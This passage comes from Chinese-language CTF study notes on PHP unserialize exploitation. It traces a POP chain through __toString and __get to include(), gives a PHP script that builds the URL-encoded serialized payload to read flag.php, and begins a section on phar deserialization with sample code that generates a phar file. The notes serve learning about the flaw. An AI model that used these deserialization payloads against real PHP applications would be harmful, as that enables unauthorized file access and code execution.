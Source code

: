 ```
反序列化入口unserialize() →  example::__tostring() →  get::__get() → 执行危险操作include()
```

之后要 include `'flag.php'`，由于$name == flag，所以要构造 $flag == ‘.php’ ，拼接起来就可以包含 ‘flag.php’ 从而拿到flag。

即

```php
<?php
class example {
    public $str;
}
class get {
    private $flag;
    function __construct($flag)
    {
        $this->flag = $flag;
    }
}
$a = new example();
$b = new get('.php');
$a->str = $b;
echo urlencode(serialize($a));
```



# phar反序列化--PHP<8

## phar是什么

1. 功能：压缩文件，将内容序列化存储

2. 如何生成：

   > 注意：要将php.ini中的phar.readonly选项设置为Off,并删除前面的;否则无法生成phar文件。

   ```php
   <?php
       class User{
           public $name='khaz';
           function __destruct(){
               echo "destruct";
           }
       }
       $phar = new Phar("test.phar");//生成的压缩文件名为test.phar
       $phar->startBuffering();
       //设置stub
       $phar->setStub("<?php __HALT_COMPILER(); ?>");
       //将自定义的meta-data存入manifest
       $a = new User();
       $phar->setMetadata($a);
       //添加要压缩的文件
       $phar->addFromString("test.txt", "test");
       //签名自动计算
       $phar->stopBuffering();
   ?>
   ```
